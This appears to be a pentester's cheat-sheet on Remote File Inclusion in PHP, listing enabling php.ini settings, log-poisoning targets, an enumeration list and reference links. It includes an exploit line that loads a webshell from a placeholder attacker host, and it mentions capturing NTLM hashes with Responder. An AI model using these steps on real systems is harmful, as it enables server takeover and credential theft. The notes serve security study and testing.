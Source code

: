 # Manual

## Remote File Inclusion (RFI)

### Conditions

```
$ cat /etc/php/7.4/apache2/php.ini
..[truncated]..
allow_url_fopen = On
allow_url_include = On
..[truncated]..
```

- Poison log files to insert payload

```
/var/log/apache/access.log
/var/log/nginx/error_log
/var/log/auth.log
```

- Send via email

- Upload a webshell in a vulnerable file upload form

### General

#### Enumeration

```
https://cirt.net/rfiinc.txt
HTTPS://cirt.net/rfiinc.txt
httPs://cirt.net/rfiinc.txt
```

#### Exploit

Note: Look at `phpinfo()` for `disabled_functions`. If there are then check **hacktricks** in the reference links below.

```
http://<attacker_IP>/webshell.php
```

### Windows

#### Exploit

Note: This doesn't require `allow_url_include` to be enabled.

- Grab NTLM hashes with Responder (out of band)

---
## References

- [Hacking Articles: Comprehensive Guide on Local File Inclusion (LFI)](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

- [Hacking Articles: Comprehensive Guide on Remote File Inclusion (RFI)](https://www.hackingarticles.in/comprehensive-guide-on-remote-file-inclusion-rfi/)

- [Hacking Articles: SMTP Log Poisoning through LFI to Remote Code Execution](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/)

- [Hacking Articles: RCE with LFI and SSH Log Poisoning](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)

- [Local File Inclusion Code Execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/)

- [Hacktricks: PHP - Useful Functions & disable_functions/open_basedir bypass](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

- [File Inclusion (Local/Remote)](https://notes.defendergb.org/web-sec/vuln/lfi-rfi)

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)